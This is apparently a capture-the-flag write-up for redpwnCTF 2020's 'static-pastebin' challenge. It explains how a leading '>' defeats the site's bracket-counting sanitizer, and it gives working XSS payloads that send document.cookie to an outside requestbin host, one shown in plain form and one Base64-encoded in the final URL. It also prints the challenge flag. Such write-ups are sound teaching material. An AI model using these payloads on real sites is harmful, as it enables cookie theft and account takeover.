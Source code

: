 # static-pastebin
[![Generic badge](https://img.shields.io/badge/web-xss-<COLOR>.svg)](https://shields.io/)

## Challenge
![challenge](images/challenge.png)

There are two links:
1. https://static-pastebin.2020.redpwnc.tf/ to test the XSS;
2. https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin to submit the solution and get flag.

## XSS
At the moment we just need the first link.

![static pastebin](images/static_pastebin.png)

The `script.js` inside generates the link I have to enter in the admin-bot page:

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

It takes the text I have inserted and encodes it in Base64 (`btoa(text.value)`).

If I write something and we click `Create`, the static-pastebin generates a new html page displaying what I wrote. However if I try to write an HTML tag, it is removed so that XSS may not be possible.

`script.js` inside the generated HTML document applies a control against script injection:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

If there is `>` before the tag, the counter is decreased before it is increased, so the tag is not delated.

The objective is to find a snippet of code that can run **automatically** some javascript code when the admin-bot visits my link.

The injection is:

```html
><img src="sdfg" onerror="fetch('url',{method: 'POST',body: document.cookie})">
```

Since the image `sdfg` doesn't exist in the admin computer, the `onerror` event is triggered and the javascript is executed. `url` is replaced by a [requestbin](http://requestbin.net/) url.

However, when I clicked *Create*, the browser showed me an error: `Blocked loading mixed active content` because I was trying to fetch data from an https page through an http connection. Requestbin doesn't provide a https webhook so this xss can't work with that url.

Another possible solution is:

```html
><img src="asdf" onerror="window.location.href='url?a=' + document.cookie">
```

`window.location.href` is a property that I can set to redirect the page to the url I'm setting. So I can make a fake request to the requestbin url and set a request parameter `a` with the cookie of the admin-bot browser.

I generated the Base64 encoding of the xss:

```
PjxpbWcgc3JjPSJhc2RmIiBvbmVycm9yPSJ3aW5kb3cubG9jYXRpb24uaHJlZj0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMWgyY3lxbzEvP2E9JyArIGRvY3VtZW50LmNvb2tpZSI+
```

and I built the url to subit in the admin-bot page:

```
https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPSJhc2RmIiBvbmVycm9yPSJ3aW5kb3cubG9jYXRpb24uaHJlZj0naHR0cDovL3JlcXVlc3RiaW4ubmV0L3IvMWgyY3lxbzEvP2E9JyArIGRvY3VtZW50LmNvb2tpZSI+
```

Lastly I submitted the url generated by this page to the admin bot page that sent to the requestbin webhook the flag:

![requestbin](images/requestbin.png)

## Flag

`flag{54n1t1z4t10n_k1nd4_h4rd}`